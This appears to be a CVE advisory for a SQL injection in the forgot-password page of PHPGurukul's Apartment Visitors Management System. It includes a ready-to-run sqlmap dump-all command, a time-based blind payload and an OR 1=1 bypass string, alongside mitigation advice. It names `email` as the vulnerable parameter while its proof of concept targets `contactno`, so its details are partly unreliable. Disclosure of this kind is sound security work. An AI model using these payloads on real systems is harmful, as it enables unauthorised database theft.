

# CVE-2026-39111 – SQL Injection (SQLi)

## 📌 Description
A SQL Injection vulnerability in the **Apartment Visitors Management System V1.1** allows an unauthenticated attacker to manipulate backend SQL queries via the `email` parameter on the Forgot Password page (`forgot-password.php`). An attacker can exploit this flaw to manipulate database logic and retrieve sensitive user data without proper authentication.

## 🧱 Affected Product
- **Product:** Apartment Visitors Management System
- **Vendor:** PHPGurukul
- **Version:** V1.1

## 📂 Affected Component
- **File:** `forgot-password.php` (Forgot Password Page)
- **Parameter:** `email`
- **Request Method:** POST
- **Module:** Authentication Module

## 🎯 Attack Vector
An unauthenticated remote attacker can exploit this vulnerability by injecting crafted SQL input into the "Email" field during a password recovery request. The application fails to sanitize this input, allowing the payload to be processed directly by the backend database.

## 🔍 Vulnerability Type
SQL Injection (In-Band / Boolean-Based)

## ⚠️ Impact
- **Information Disclosure:** Access to administrative emails and other sensitive records.
- **Unauthorized Data Access:** Ability to verify and extract database contents.
- **Full Database Extraction:** Potential to dump all database tables via automated exploitation.

## 🧪 Proof of Concept
Vulnerability confirmed using **SQLmap** and HTTP request interception. Crafted input in the `email` parameter allowed successful manipulation of backend SQL queries. No destructive actions were performed during validation.

```bash
sqlmap -u "http://<TARGET-IP>/avms/forgot-password.php" \
  --method=POST \
  --data="email=REDACTED&contactno=REDACTED&submit=" \
  -p "contactno" \
  --cookie="PHPSESSID=<SESSION_ID>" \
  --dump-all \
  --threads=5 \
  --risk=3 \
  --level=5 \
  --batch \
  --flush-session
```

```bash
---
Parameter: contactno (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test@gmail.com&contactno=123456789' AND (SELECT 4347 FROM (SELECT(SLEEP(5)))ibbo) AND 'TRMt'='TRMt&submit=
---
```



### Request Flow
The vulnerability is triggered when the application processes the POST request on `forgot-password.php`. The `email` parameter is concatenated directly into the query:

SELECT * FROM tbladmin WHERE Email = '$email' AND AdminContactNo = '$contactno'

By injecting a payload such as ' OR 1=1 -- -, the attacker bypasses the intended filter to confirm records or extract information.

## 🛡 Mitigation
- **Use Prepared Statements:** Use parameterized queries (PDO/MySQLi) to handle all user-supplied data.
- **Input Filtering:** Validate that the `email` parameter follows a strict email format.
- **Database Hardening:** Limit database user permissions to prevent broad data access.

## 🔗 References
- https://phpgurukul.com/apartment-visitors-management-system-using-php-and-mysql/
- https://phpgurukul.com/?sdm_process_download=1&download_id=21524

## 👤 Discoverer
Efe Kaan AKKAR
